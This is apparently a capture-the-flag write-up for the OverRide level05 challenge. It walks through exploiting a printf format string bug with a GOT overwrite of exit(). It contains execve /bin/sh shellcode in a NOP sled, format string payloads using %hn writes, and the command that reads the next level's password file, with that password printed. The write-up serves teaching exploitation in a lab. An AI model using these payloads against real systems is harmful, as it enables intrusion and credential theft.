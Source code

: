 At first glance, it seems that this program simply converts uppercase letters 
to lowercase using XOR with 32, while containing a format string attack vulnerability:

```C
#include <unistd.h>
#include <stdio.h>

int main(int argc, const char **argv, const char **envp)
{
  char s[100];
  unsigned int i;

  i = 0;
  fgets(s, 100, stdin);
  for (i = 0; i < strlen(s); ++i)
  {
    if (s[i] > 64 && s[i] <= 90)
      s[i] ^= 32;
  }
  printf(s);
  exit(0);
}
```

So let's try a simple GOT overwrite of `exit()` with a shellcode.

Here is the address of `exit()`:
```bash
level05@OverRide:~$ objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
`exit()` is at `0x080497e0`.

Let's use the shellcode from previous exercises:
```bash
level05@OverRide:~$ export EXPLOIT=$(python -c 'print "\x90" * 150 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

We control the 10th formatter:
```bash
level05@OverRide:~$ ./level05 
aaaabbbbcccc %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
aaaabbbbcccc 00000064 f7fcfac0 f7ec3add ffffd63f ffffd63e 00000000 ffffffff ffffd6c4 f7fdb000 61616161 62626262 63636363
```
Our shellcode in gdb is at `0xffffd841`, more precisely, 8 characters later at `0xffffd849`.
```bash
0xffffd841:	 "EXPLOIT=\220\220\220\220\220\220\220\220 ... \061\311\367\341Qh//shh/bin\211\343\260\v̀"
```
So let's take an address a bit further into the NOP sled, such as: `0xffffd861`

As usual:

- We convert the address of our buffer to decimal to replace the address of `exit()`
- We subtract the number of characters written from this decimal address
- We write the address of `exit()` at the beginning of the payload

`0xffffd861` = 4294957153

4294957153 - 4 = 4294957149

Here is our payload:
```bash
(python -c 'print "\xe0\x97\x04\x08" + "%4294957149d%10$n"'; cat) | ./level05
```

However, it doesn't work 🤡 It seems that the value is too high since it is possible to write with smaller values. 
So, we can use the `%hn` or `%hhn` flags to write respectively on 2 bytes and 1 byte.

To use `%hn`, we just need to split the buffer address into two parts: `ffff` and `d861`.

Since we are in little endian, we start with the last value and subtract the sum of the characters written before the formatter. 
Then, we subtract the first value from `ffff`. Here's the calculation:

0xffffd861 = 65535 55393, so in little endian: `55393 65535`

0xd861 = 55393

55393 - 8 = 55385 ← **First value**

0xffff = 65535

65535 - 55393 = 10142 ← **Second value**

We write these two values at addresses `0x080497e0` (the beginning of the exit address in the GOT) 
and `0x080497e2` (2 bytes further).

This gives us:
```bash
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55385d%10$hn" + "%10142d%11$hn"'; cat) | ./level05

...

whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
